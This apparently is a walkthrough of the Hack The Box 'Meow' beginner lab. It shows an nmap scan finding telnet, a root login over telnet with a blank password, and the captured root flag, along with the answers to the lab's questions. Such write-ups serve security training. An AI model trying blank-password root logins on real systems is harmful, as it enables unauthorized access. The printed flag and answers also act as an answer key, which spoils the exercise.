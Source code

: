 # Meow

## Task 1: What does the acronym VM stand for?

virtual machine

## Task 2: What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell

terminal

## Task 3: What service do we use to form our VPN connection into HTB labs?

openvpn

## Task 4: What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?

tun

## Task 5: What tool do we use to test our connection to the target with an ICMP echo request?

ping

## Task 6: What is the name of the most common tool for finding open ports on a target?

nmap

## Task 7: What service do we identify on port 23/tcp during our scans?

```bash
nmap 10.129.196.200 

Nmap scan report for 10.129.196.200
Host is up (0.25s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
23/tcp open  telnet
```

answer: telnet

TELNET is commonly used by terminal emulation programs that allow you to log into a remote host. However, TELNET can also be used for terminal-to-terminal communication and interprocess communication. TELNET is also used by other protocols (for example, FTP) for establishing a protocol control channel. (google)

## Task 8: What username is able to log into the target over telnet with a blank password?

configuration mistakes, try logging with some important accounts without password:

- administrator
- admin
- root

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ telnet 10.129.11.21
Trying 10.129.11.21...
Connected to 10.129.11.21.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 15 Jan 2023 04:52:45 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             136
  Users logged in:       0
  IPv4 address for eth0: 10.129.11.21
  IPv6 address for eth0: dead:beef::250:56ff:feb9:e207

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```

answer: root

## Task 9: Submit root flag

```bash
root@Meow:~# ls -a
.  ..  .bash_history  .bashrc  .cache  flag.txt  .local  .profile  .selected_editor  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Flag: `b40abdfe23665f766f9c61ecba8a4c19`
